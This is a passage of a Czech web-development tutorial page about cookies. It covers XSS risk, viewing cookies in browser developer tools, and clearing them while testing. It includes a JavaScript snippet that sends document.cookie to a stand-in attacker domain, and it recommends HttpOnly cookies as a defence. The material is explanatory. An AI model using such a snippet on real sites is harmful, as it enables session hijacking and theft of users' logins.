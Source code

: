 
<div class="internal-content">
  <ul>
    <li><a href="/xss">Využití XSS chyby</a> – jak je možné využít XSS díru na webové stránce </li>
  </ul>
</div>

<p>Cookie si lze snadno přenést na vlastní server.</p>

<pre><code>var ping = new Image();
ping.src = "http://domena-utocnika.cz/?" + 
            encodeURI(document.cookie);</code></pre>





<p>Kromě opravení XSS díry je řešení nastavit sušenky jako <code>HttpOnly</code>. Potom se k nim JavaScript vůbec nedostane.</p>


<h2 id="prohlizeni">Jak zobrazit cookie?</h2>

<p>Podívat se na cookie, které jsou pro danou stránku nastaveny, jde ve <a href="/vyvojarske-nastroje">vývojářských nástrojích</a> (klávesa <kbd>F12</kbd>).</p>

<p>V <b>Chrome</b> jsou na kartě <i>Resources</i>:</p>

<p><img src="/files/cookies/prehled-cookies.png" alt="Přihlášení na Facebooku bez cookies" class="border"></p>






















<p>Sušenky tam jde pouze mazat. Pro upravování je potřeba rozšíření. Na obrázku jsou cookies, které přidává Google Analytics.</p>


<h2 id="testovani">Testování</h2>

<p>Jelikož cookies ovlivňují chování aplikace, může se při vývoji stát, že se stránka bude chovat neočekávávaně. Na vině mohou být dříve nastavené sušenky se špatnou hodnotou.</p>

<p>Proto je dobré čas od času cookies promazat nebo <b>aplikaci otevřít v anonymním okně</b> – <kbd>Ctrl</kbd> + <kbd>Shift</kbd> + <kbd>N</kbd> v <b>Chrome</b>/<b>Opeře</b> a <kbd>Ctrl</kbd> + <kbd>Shift</kbd> + <kbd>P</kbd> pro <b>Firefox</b>/<a href="/microsoft-edge"><b>Edge</b></a>.</p>

<p>U anonymního okna si je třeba uvědomit, že otevření další záložky už bude vidět cookie vytvořené v první záložce, takže i anonymní okno je potřeba občas otevřít znovu.</p>


<h2 id="php">Cookies v PHP</h2>
